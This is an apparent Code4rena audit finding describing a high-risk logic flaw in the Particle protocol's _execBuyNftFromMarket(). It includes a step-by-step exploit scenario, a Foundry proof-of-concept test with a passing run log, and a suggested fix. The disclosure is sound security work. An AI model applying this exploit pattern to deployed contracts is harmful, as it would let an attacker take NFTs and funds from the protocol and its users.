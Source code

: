 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-03

# [_execBuyNftFromMarket() Need to determine if NFT can't already be in the contract](https://github.com/code-423n4/2023-05-particle-findings/issues/15) 

# Lines of code

https://github.com/code-423n4/2023-05-particle/blob/1caf678bc20c24c96fc8f6b0046383ff0e9d2a6f/contracts/protocol/ParticleExchange.sol#L428


# Vulnerability details

## Impact
Use other Lien's NFTs for repayment

## Proof of Concept
`_execBuyNftFromMarket()` Whether the NFT is in the current contract after buy, to represent the successful buy of NFT

```solidity
    function _execBuyNftFromMarket(
        address collection,
        uint256 tokenId,
        uint256 amount,
        uint256 useToken,
        address marketplace,
        bytes calldata tradeData
    ) internal {
...

        if (IERC721(collection).ownerOf(tokenId) != address(this) || balanceBefore - address(this).balance != amount) {
            revert Errors.InvalidNFTBuy();
        }
    }    
```

But before executing the purchase, it does not determine whether the NFT is already in the contract

Since the current protocol does not limit an NFT to only one Lien, the `_execBuyNftFromMarket()` does not actually buy NFT, the funds is used to buy other NFTs but still can meet the verification conditions

Example.
1. alice transfer NFT_A to supply Lien[1]
2. bob performs `sellNftToMarket(1)` , and NFT_A is bought by jack
3. jack transfer NFT_A and supply Line[2] (after this NFT_A exists in the contract)
4. bob execute buyNftFromMarket(1), spend the same amount corresponding to the purchase of other NFT such as: tradeData = { buy NFT_K }
5. Step 4 can be passed `IERC721(collection).ownerOf(tokenId) ! = address(this) || balanceBefore - address(this).balance ! = amount`
and bob gets an additional NFT_K


Test code:

```solidity
    function testOneNftTwoLien() external {
        //0.lender supply lien[0]
        _approveAndSupply(lender,_tokenId);
        //1.borrower sell to market
        _rawSellToMarketplace(borrower, address(dummyMarketplace), 0, _sellAmount);
        //2.jack buy nft
        address jack = address(0x100);
        vm.startPrank(jack);
        dummyMarketplace.buyFromMarket(jack,address(dummyNFTs),_tokenId);
        vm.stopPrank();
        //3.jack  supply lien[1]
        _approveAndSupply(jack, _tokenId);        
        //4.borrower buyNftFromMarket , don't need buy dummyNFTs ,  buy other nft
        OtherDummyERC721 otherDummyERC721 = new OtherDummyERC721("otherNft","otherNft");
        otherDummyERC721.mint(address(dummyMarketplace),1);
        console.log("before borrower balance:",borrower.balance /  1 ether);
        console.log("before otherDummyERC721's owner is borrower :",otherDummyERC721.ownerOf(1)==borrower);
        bytes memory tradeData = abi.encodeWithSignature(
            "buyFromMarket(address,address,uint256)",
            borrower,
            address(otherDummyERC721),//<--------buy other nft
            1
        );
        vm.startPrank(borrower);
        particleExchange.buyNftFromMarket(
            _activeLien, 0, _tokenId, _sellAmount, 0, address(dummyMarketplace), tradeData);
        vm.stopPrank();
        //5.show borrower get 10 ether back , and get  other nft
        console.log("after borrower balance:",borrower.balance /  1 ether);
        console.log("after otherDummyERC721's owner is borrower :",otherDummyERC721.ownerOf(1)==borrower);

    }



contract OtherDummyERC721 is ERC721 {
    // solhint-disable-next-line no-empty-blocks
    constructor(string memory name, string memory symbol) ERC721(name, symbol) {}

    function mint(address to, uint256 tokenId) external {
        _safeMint(to, tokenId);
    }
}

```

```console

$ forge test --match testOneNftTwoLien  -vvv

[PASS] testOneNftTwoLien() (gas: 1466296)
Logs:
  before borrower balance: 0
  before otherDummyERC721's owner is borrower : false
  after borrower balance: 10
  after otherDummyERC721's owner is borrower : true

Test result: ok. 1 passed; 0 failed; finished in 6.44ms
```

## Tools Used

## Recommended Mitigation Steps
`_execBuyNftFromMarket` to determine the ownerOf() is not equal to the contract address before buying

```solidity
    function _execBuyNftFromMarket(
        address collection,
        uint256 tokenId,
        uint256 amount,
        uint256 useToken,
        address marketplace,
        bytes calldata tradeData
    ) internal {
        if (!registeredMarketplaces[marketplace]) {
            revert Errors.UnregisteredMarketplace();
        }
+       require(IERC721(collection).ownerOf(tokenId) != address(this),"NFT is already in contract ")
...
```


## Assessed type

Context